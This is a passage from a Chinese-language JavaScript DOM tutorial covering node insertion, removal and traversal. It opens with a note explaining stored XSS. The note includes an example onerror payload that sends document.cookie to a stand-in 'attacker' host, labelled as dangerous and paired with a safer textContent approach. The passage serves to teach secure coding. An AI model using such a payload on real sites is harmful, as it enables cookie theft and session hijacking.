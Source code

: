 - 情境：儲存型 XSS（Stored XSS）
  1) 攻擊者在留言/表單輸入惡意內容（例如 `<img src=x onerror="steal()">`）
  2) 後端未清洗即存入資料庫
  3) 頁面渲染從資料庫撈出，為了排版用 `innerHTML/insertAdjacentHTML` 插入
  4) 惡意事件屬性被瀏覽器解析並執行，攻擊者即可在該頁以使用者身分做任何事

```js
// 危險：直接將後端回傳的 HTML 串進列表
const list = document.querySelector('#comments');
const commentHtml = '<p>Nice!</p><img src=x onerror="fetch(\'https://attacker\/?c=\'+document.cookie)">';
list.insertAdjacentHTML('beforeend', '<li>'+ commentHtml +'</li>');

// 建議：改以文字與節點操作，或先用白名單清洗後再插入
const item = document.createElement('li');
const p = document.createElement('p');
p.textContent = 'Nice!';
item.append(p);
list.append(item);
```
{% endnote %}

### 移除節點與清空
在操作 DOM 時，除了插入新節點之外，「移除」與「清空」也是常見且重要的需求。例如：刪除不再需要的卡片、移除某個區塊，或是將容器內容全部清空以便重新渲染。以下將介紹現代與傳統的節點移除方法，以及安全清空內容的技巧。

```js
// 移除自身（現代）
card.remove();

// 傳統作法：由父節點移除
if (card.parentNode) {
  card.parentNode.removeChild(card);
}

// 清空容器（保留節點本身）
const panel = document.querySelector('.panel');
panel.innerHTML = ''; // 快速，但會銷毀事件與狀態

// 更保守清空方式
while (panel.firstChild) {
  panel.removeChild(panel.firstChild);
}
```

### 節點遍歷與定位
這一節將介紹常用的節點遍歷方法，幫助你靈活取得父層、子層、兄弟節點，並說明如何以不同起點進行元素搜尋，讓你能更精確地操作網頁結構。

#### 基礎操作
```js
const node = document.querySelector('.item.active');

// 往上（父層）
const parent = node.parentElement;        // 或 parentNode（可能是 Document）
const form = node.closest('form');        // 往上尋找符合選擇器的最近祖先

// 往下（子層）
const children = node.children;           // HTMLCollection（僅元素）
const first = node.firstElementChild;     // 第一個子元素
const last = node.lastElementChild;       // 最後一個子元素

// 同層前後
const prev = node.previousElementSibling; // 前一個兄弟元素
const next = node.nextElementSibling;     // 後一個兄弟元素
```
